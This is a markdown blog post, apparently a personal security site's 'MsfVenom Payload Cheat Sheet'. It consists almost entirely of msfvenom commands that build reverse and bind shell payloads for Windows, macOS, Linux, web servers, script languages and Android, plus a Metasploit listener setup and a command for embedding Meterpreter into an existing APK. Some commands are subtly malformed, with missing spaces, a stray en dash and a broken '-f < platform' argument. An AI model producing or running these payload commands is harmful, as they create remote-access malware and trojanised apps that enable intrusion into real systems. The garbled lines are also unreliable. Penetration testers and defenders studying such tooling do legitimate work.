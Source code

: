 ```yaml
---
published: true
title: MsfVenom Payload Cheat Sheet
category: Cheatsheet
image: 'https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/metasploit.jpg'
author: F3dai
---
```

MSFvenom Payload Creator (MSFPC) is a user-friendly multiple payload generator that can be used to generate Metasploit payloads based on user-selected options. MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015.

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

### Metasploit Payload Listener

<pre>msfconsole
use exploit/multi/handler
set [payload-name]
set [ip-address]
set [port]
Run</pre>

### Windows Payloads

Windows Meterpreter Reverse Shell: 

<pre>msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe</pre>

Windows Reverse Shell:

<pre>msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe</pre>

Windows Encoded Meterpreter Reverse Shell:

<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe</pre>

Windows Meterpreter Reverse Shellcode

<pre>msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform </pre>

macOS Payloads
macOS Bind Shell

<pre>msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho</pre>

macOS Reverse Shell

<pre>msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho</pre>

macOS Reverse TCP Shellcode

<pre>msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform </pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell

<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Bind TCP Shell

<pre>msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Bind Meterpreter TCP Shell

<pre> msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Meterpreter Reverse Shellcode

<pre> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f &lt; platform </pre>

Web-base Payloads
PHP Meterpreter Reverse Shell

<pre> msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php</pre>

JSP Java Meterpreter Reverse Shell

 <pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp</pre>

ASP Meterpreter Reverse Shell

<pre> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp</pre>

WAR Reverse TCP Shell

 <pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war</pre>

Script-Base Payloads
Perl Unix Reverse shell

<pre> msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl</pre>

Bash Unix Reverse Shell

 <pre>msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh</pre>

Python Reverse Shell

 <pre>msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py</pre>

Android Payloads
Android Meterpreter reverse Payload

<pre>msfvenom –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk</pre>

Android Embed Meterpreter Payload

<pre>msfvenom -x &lt;app.apk> android/meterpreter/reverse_tcp lhost=ip-address lport=port -o payload-name.apk</pre>

Msf-Venom Payload Cheat Sheet - Meterpreter Payload Cheat Sheet.

 